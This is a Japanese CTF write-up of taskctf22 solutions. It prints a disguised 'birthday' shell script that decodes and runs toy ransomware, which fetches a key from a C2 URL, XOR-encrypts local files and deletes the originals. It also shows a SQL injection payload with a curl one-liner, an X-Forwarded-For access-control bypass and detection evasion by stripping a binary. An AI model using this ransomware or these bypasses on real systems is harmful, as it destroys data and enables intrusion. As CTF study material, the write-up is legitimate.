

# taskctf22-writeup
https://ctf.task4233.dev/

息抜きで参加したら10位でした。せっかくなので、チュートリアル問題は抜き＆回答順に雑にWriteup。

  - 

# ramen
>このラーメン屋の名前は何でしょう？
>
>正式名称ではなく、漢字のみで taskctf{ラーメン屋の名前}の形式で回答してください。 ラーメン屋の名前がラーメン二郎であれば、 taskctf{二郎} >がFlagになります。
>
> [ramen.jpg](https://ctf.task4233.dev/files/19a3eb0f61ac93b27ed99f9136fe5d84/ramen.jpg)

雑に[Googleの画像検索](https://images.google.com/)して店名を見つけて回答おわり。

# ransomware
> 友人が誕生日祝いで送ってきたスクリプトを実行したら、お手製ランサムで手元のFlagを暗号化されてしまいました。どうにかして復元できないでしょうか？
>
> [files.zip](https://ctf.task4233.dev/files/151dd5d09c6e36d2df04ed59ff8b2a60/files.zip)

files.zipを展開するとhbd.shとtaskctf_flag.txt.encryptedいうファイルが入っている。
taskctf_flag.txt.encryptedが暗号化されてしまったデータ。

hbd.shの中身を見てみると…

```
#!/bin/sh
echo "IyEvdXNyL2Jpbi9lbnYgcHl0aG9uMwoKaW1wb3J0IHJlcXVlc3RzCmltcG9ydCBnbG9iCmltcG9ydCBvcwoKQzIgPSAiaHR0cHM6Ly9jMi50YXNrNDIzMy5kZXYvYkQ3YkI3cGM1N2QyIgoKZGVmIG1haW4oKToKICAgICMgZ2V0IGEga2V5IGZyb20gYSBjMiBzZXJ2ZXIKICAgIGtleSA9IGludChyZXF1ZXN0cy5nZXQoQzIpLnRleHQpCgogICAgZmlsZXMgPSBnbG9iLmdsb2IoJy4vKicpCiAgICAjIGFkZGVkIGZvciBDVEY6KQogICAgYXNzZXJ0ICIuL3Rhc2tjdGZfZmxhZy50eHQiIGluIGZpbGVzCgogICAgIyBlbmNyeXB0IGFsbCBmaWxlcwogICAgZm9yIGZpbGUgaW4gZmlsZXM6CiAgICAgICAgIyBpZ25vcmUgdGhpcyBzY3JpcHQgYW5kIGRpcmVjdG9yaWVzCiAgICAgICAgaWYgb3MucGF0aC5iYXNlbmFtZShmaWxlKSA9PSBvcy5wYXRoLmJhc2VuYW1lKF9fZmlsZV9fKToKICAgICAgICAgICAgY29udGludWUKICAgICAgICBpZiBub3Qgb3MucGF0aC5pc2ZpbGUoZmlsZSk6CiAgICAgICAgICAgIGNvbnRpbnVlCgogICAgICAgICMgZW5jcnlwdCBhIHRhcmdldCBmaWxlCiAgICAgICAgZGF0YSA9IE5vbmUKICAgICAgICB3aXRoIG9wZW4oZmlsZSwgJ3InKSBhcyBmOgogICAgICAgICAgICBkYXRhID0gZi5yZWFkKCkgICAgICAgIAogICAgICAgIGVuY3J5cHRlZCA9ICIiCiAgICAgICAgZm9yIGNoIGluIGRhdGE6CiAgICAgICAgICAgIGVuY3J5cHRlZCArPSBjaHIob3JkKGNoKSBeIGtleSkKICAgICAgICB3aXRoIG9wZW4oZiJ7ZmlsZX0uZW5jcnlwdGVkIiwgJ3cnKSBhcyBmOgogICAgICAgICAgICBmLndyaXRlKGVuY3J5cHRlZCkKICAgICAgICAKICAgICAgICAjIGRlbGV0ZSB0aGUgcmF3IGZpbGUKICAgICAgICBvcy5yZW1vdmUoZmlsZSkKICAgIAogICAgcHJpbnQoJ1wwMzNbMzFtISEhIFlPVVIgRkxBRyBIQVMgQkVFTiBFTkNSWVBURUQgISEhXDAzM1swbScpCiAgICBwcmludCgnXDAzM1szMW1Zb3UgaGF2ZSB0d28gY2hvaWNlcy4gVHJlYXQgbWUgd2hlbiBJIHNlZSB5b3UgbmV4dCB0aW1lLCBvciBkZWNyeXB0IGl0IHlvdXJzZWxmIGlmIHlvdSBjYW4gbG9sLlwwMzNbMG0nKQoKaWYgX19uYW1lX18gPT0gIl9fbWFpbl9fIjoKICAgIG1haW4oKQo=" | base64 -d | python3
```

hbd.shはbase64文字列をデコードしたあと、その結果をpython3で実行するみたい。
(python3をインストールしていることを前提としているランサムウェアってあるの…？)

base64文字列をデコードするとこんな感じ。HTTPでkeyをとってきてxorな暗号化をしているみたい。

```
#!/usr/bin/env python3

import requests
import glob
import os

C2 = "https://c2.task4233.dev/bD7bB7pc57d2"

def main():
    # get a key from a c2 server
    key = int(requests.get(C2).text)

    files = glob.glob('./*')
    # added for CTF:)
    assert "./taskctf_flag.txt" in files

    # encrypt all files
    for file in files:
        # ignore this script and directories
        if os.path.basename(file) == os.path.basename(__file__):
            continue
        if not os.path.isfile(file):
            continue

        # encrypt a target file
        data = None
        with open(file, 'r') as f:
            data = f.read()        
        encrypted = ""
        for ch in data:
            encrypted += chr(ord(ch) ^ key)
        with open(f"{file}.encrypted", 'w') as f:
            f.write(encrypted)
        
        # delete the raw file
        os.remove(file)
    
    print('\033[31m!!! YOUR FLAG HAS BEEN ENCRYPTED !!!\033[0m')
    print('\033[31mYou have two choices. Treat me when I see you next time, or decrypt it yourself if you can lol.\033[0m')

if __name__ == "__main__":
    main()
```

https://c2.task4233.dev/bD7bB7pc57d2 というサイトは実際にはなく、keyは入手できないので、雑にブルートフォースして回答おわり。

```
#!/usr/bin/python3
import sys

encryped_data = open("taskctf_flag.txt.encrypted").read()

for key in range(0xffffffff):
    decrypted_data = ""
    for ch in encryped_data:
        decrypted_data += chr(ord(ch) ^ key)

    if "task" in decrypted_data:
        print(key)
        print(decrypted_data)
        sys.exit(0)
```

# first
> 運営している小さな掲示板が100ユーザを達成しました 🎉
> 
> そこで、メンテ明けの12/6に100番目ちょうどの登録をしたユーザをトップページで掲載したいので、ユーザ名を taskctf{ユーザ名} で教えてください！
> 
> http://34.82.208.2:31555/
> 
> [files.zip](https://ctf.task4233.dev/files/9c665e369f04cb383208e1f7a07f3f8e/files.zip)

ブラウザでURLを開くと、掲示板っぽいWebアプリ。

  - 


files.zipに含まれているapp/app.pyの内容を見ると、SELECT文を実行しているところでSQLインジェクションが効くみたいな雰囲気。

```
@app.route("/", methods=["GET"])
def index_get():
    q = ''
    if request.args.get('q') is not None:
        q = request.args.get('q')
    
    results = None
    c = sqlite3.connect(db_name)
    try:
        cur = c.cursor()
        cur.execute(f"SELECT posts.id, users.name, posts.body FROM posts INNER JOIN users ON posts.user_name = users.name AND posts.body LIKE \'%{q}%\'")  ←ここ
        results = cur.fetchall()
    except Exception as e:
        traceback.print_exc()
        return f'error: {e}', 500
    finally:
        c.close()

    results_resp = [Index_get_response(result) for result in results]
    return render_template('index.html', results=results_resp)
```

個人的にWeb問題とかSQLインジェクションは苦手なのですよね…。
(本業はCG・画像処理方面のエンジニアなので、Webアプリ方面の知識がまったくない💦)

とりあえず、↓を突っ込んでコメントをユーザIDごとに並べたあと、uniqして100番目を取り出すかなり雑なワンライナーで回答おわり。

```
' or 1=1 order by users.id asc; --
```

```
$ curl -s "http://34.82.208.2:31555/?q=%27+or+1%3D1+order+by+users.id+asc%3B+--" | grep card-header | uniq | head -100 | tail -1
  <h5 class="card-header">Satomi_Kato</h5>
```

# robots
> Flagが漏洩してるって聞いたけど、本当ですか？？？
>
> http://34.82.208.2:31481/

ブラウザで開くと、jpegファイルが出てきた。これはステガノ問題…？

  - 

これはひょっとすると、(R,G,B)=(116,120,116)のピクセルだけ残すとflag文字列がうかびあがるとかなのかな…？と思ってopencv-pythonで抽出してみたけど、結果真っ黒。この方向じゃないみたい…。

  - 

気を取り直して 116, 120, 116 って何の数字…と思って[ASCIIコード表](https://www.k-cube.co.jp/wakaba/server/ascii_code.html)を見る。
どうも"TXT"に相当するみたい。robots.txt…？

http://34.82.208.2:31481/robots.txt をブラウザで開いてみると、思いっきりflagがDisallowされてるっぽいされているみたい。

  - 

次に、http://34.82.208.2:31481/admin/flag を開いてみると、思いっきりアクセス制限に引っかかってしまう。

  - 

どうやったら接続元IPの偽装ができるのかな…？と思いながら、雑にリクエストヘッダにX-Forwarded-For:をつけて接続元を偽装することに成功して回答おわり。

```
$ curl -s -H 'X-Forwarded-For: 127.0.0.1' "http://34.82.208.2:31481/admin/flag"
```

(昔、同じサーバに2問同居していて、片方の問題でローカルシェルをとってしまえば、もう一つの問題のアクセス制限は余裕で回避できてしまう…という出題者が想定しない回避方法で問題を回答したことがあったなぁ…と遠い目)

# anti_detection
> Flagを取得するための実行ファイルとアップローダを用意しました。 ただし、この実行ファイルをそのままアップロードすると、防御システムに類似ファイルと検知されて実行されない仕組みになっています。
>
> そこで、検知システムをすり抜ける実行ファイルを作ってFlagを取得してください！
>
> http://34.82.208.2:31516/
>
> [detected](https://ctf.task4233.dev/files/c2cd1046f6a7e9ea7f46af0137d4bc94/detected)

とりあえず、URLをブラウザで開いて、detectedをアップロードしてみると…

  - 

"this file is similar to the file in blacklisted"といわれて、拒否られるっぽい。

  - 

とりあえず、detectedというファイルが何なのかを調べてみる。
まずfileコマンドでファイルの種類を特定する。どうもLinux x86-64な実行ファイルの様子。

  - 
 
次にstraceを使ってdetectedの挙動を調べてみる。

```
$ strace ./detected
```

detectedは同じディレクトリにあるflag.txtファイルをオープンしようとしているみたい。
(OSが壊れても大丈夫な環境でファイルを実行しましょう…と思いつつ、雑に手元のLinux PCで実行)

  - 

適当に echo "taskctf{aaaabbbbcccc}" > flag.txt でファイルを作ってもう一度実行してみると…

  - 

普通に実行するとこんな感じ。

  - 

detectedの動作はこんな感じということがわかった。

  - 同じディレクトリにあるflag.txtというファイルを読み込む
  - "flag: " + flag.txtファイルの内容を標準出力に出力する

そこで、雑にgolangで↓のコードを書いて、コンパイル済み実行ファイルをアップしてみると…。

```
package main

import (
        "fmt"
        "os"
        "io"
)

func main() {
        f, _ := os.Open("flag.txt")
        defer f.Close()

        content, _ := io.ReadAll(f)
        fmt.Println(string(content))
}
```

golangの実行ファイルは大きすぎるのか～～うける～～(ダメじゃん)

  - 

いまさらC言語で書くのはアレ(何)だし、何か楽する方法ないかな…？とか思っていると、detectedの実行ファイルはstripされていないことに気が付く。

  - 

stripコマンドを使って余計な情報を削除した状態のdetectedをアップしてみたら、通ってしまったので回答おわり。

  - 

## 後日譚
この問題、サーバの調子が悪いことが多くて、なんだかみんなあれこれ遊んでいるのかな…？と思っていたけど、さっき見たらHTML書き換わってますね。
誕生日おめでとう！🎂

  - 

# douro
>この写真が撮られた場所の緯度と経度を教えてください！
>
>フラグの形式は taskctf{緯度_経度} です。ただし、緯度経度は十進法で小数点以下四桁目を切り捨てたものとします。 例えば、 皇居の入口が答えなら taskctf{35.682_139.762}が答えになります。 ref: https://goo.gl/maps/q9iJRNaaFMnDYdbGA
>
>※緯度経度の表示方法は調べれば分かるので調べてください。
>
> [douro.jpeg](https://ctf.task4233.dev/files/15954ae01494aa42260a755ea2723ad0/douro.jpeg)

OSINT問題は苦手なのですよね…と思いつつ、この地点で残っている問題はdouro, kofun, shellgeiの3つだけ。
気を取り直してチャレンジしてみることに。

画像右側に「Culve P～」の文字が光っている。これはCulver Park(公園)の看板だったりするのかな…？

  - 

とりあえず「Culver Park」でググってみると、アメリカっぽい雰囲気？
範囲が広すぎてよくわからん…。

  - 

困ったときのGoogle画像検索。場所はよくわからないけど、看板に文字が書いてあるっぽい…？

  - 

テキストをググってみると、画像左下のカンバンはこれっぽい↓

  - 
  - https://www.facebook.com/jwithersIRWD/

「Irvine Ranch Water District」を検索してみると、ロサンゼルス近郊みたい。

  - 

このあたりで「Culver Park」でググってみても、それっぽい場所が出てこない。うーん…

もう一度気を取り直して「Irvine Ranch Water District」の近くで「Culver」で検索してみると「Culver Drive」という道を発見。
写真の道路の特徴としては…

  - 十字路の交差点
  - まっすぐ進む道はゆるやかに右にカーブしている
  - 右折専用レーンがある
  - 中央分離帯がある

…なので、Culver Drive沿いにペグマン(黄色い人)をドラッグ&ドロップしまくって探していたら…。

  -   

「Culver Plaza」だよ！てっきりParkかと思っていたから、ずいぶん時間がかかっちゃったよ…。


# kofun
>作問者が訪れてSNSにもアップロードしたはずの古墳の名前を思い出せなくなってしまいました... もしご存知なら教えてくれませんか？
>
>Flagの形式はtaskctf{この古墳の名前の漢字表記} です。 例えば、 造山古墳 が答えならば taskctf{造山古墳} がフラグになります。
>
>[kofun.jpeg](https://ctf.task4233.dev/files/f9ec476aaf85d14c8769cd42abe330ff/kofun.jpeg)

さらに、苦手意識のあるOSINT問題…。

「作問者が訪れてSNSにもアップロード」ということなので、Twitterを探してみると、問題の写真以外にもう一つ写真が添付されているツイートを発見。

  - 
  - https://twitter.com/task4233/status/1558826656151654400

もう一つの写真をGoogle画像検索してみると、龍角寺古墳群ということがわかった。

  - 

「古墳群」という名前の通り、このエリアって古墳が100個以上あるのね！びっくり！
そんなに遠くには行ってないでしょう…という予想と、OSINT苦手意識から、雑に「龍角寺n号墳」(n=1～140ぐらい？)を人力ブルートフォースしてみる。全部はずれ！

  - 

気を取り直して「龍角寺古墳群」で画像検索していると…

  - 

偶然見つけた http://haniwaproject.livedoor.blog/archives/cat_379104.html にあった「上福田岩屋古墳」を回答しておわり。

# おわりに
たのしいCTFをありがとう！
誕生日おめでとう！🎂
